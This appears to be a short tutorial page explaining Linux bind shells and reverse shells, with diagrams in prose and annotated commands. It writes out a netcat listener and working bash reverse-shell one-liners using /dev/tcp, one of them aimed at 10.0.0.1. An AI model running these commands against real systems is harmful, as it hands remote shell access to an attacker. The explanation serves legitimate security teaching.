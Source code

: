 ```yaml
---
title: Linux - reverse shell & Bind shell
date: 2020-11-01 11:11:11 -0400
categories: [Linux, Sysadmin]
tags: [Linux, Sysadmin]
math: true
image: 
---
```


[toc]

---

# Bind shell

Bind shell 
- attacker's machine acts as a client 
- victim's machine acts as a server opening up a communication port on the victim and waiting for the client to connect to it 
- and then attacker issue commands that will be remotely executed on the victim's machine. 

> This would be only possible if the victim's machine has a public IP and is accessible over the internet (disregarding all firewall etc. for the sake of brevity).


what if the victim's machine is NATed and hence not directly reachable ?
- attacker's machine is reachable. 
- So attacker open a server and let the victim connect to him. 
- This is what a reverse shell is. 

---

# reverse shell

Reverse Shell 
- attacker's machine (has a public IP and is reachable over the internet) acts as a server. 
- It opens a communication channel on a port and waits for incoming connections. 
- Victim's machine acts as a client and initiates a connection to the attacker's listening server. 

Open two tabs in your terminal.
1. open TCP port 8080 and wait for a connection:
2. `nc localhost -lp 8080`
3. Open an interactive shell, and redirect the IO streams to a TCP socket:
4. `bash -i >& /dev/tcp/localhost/8080 0>&1`


```bash

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

# bash -i "If the -i option is present, the shell is interactive."

# >& "redirects both, stdout and stderr to the specified target."

# (argument for >&) /dev/tcp/localhost/8080 is a TCP client connection to localhost:8080.

# 0>&1 redirect file descriptor 0 (stdin) to fd 1 (stdout), hence the opened TCP socket is used to read input.

```

.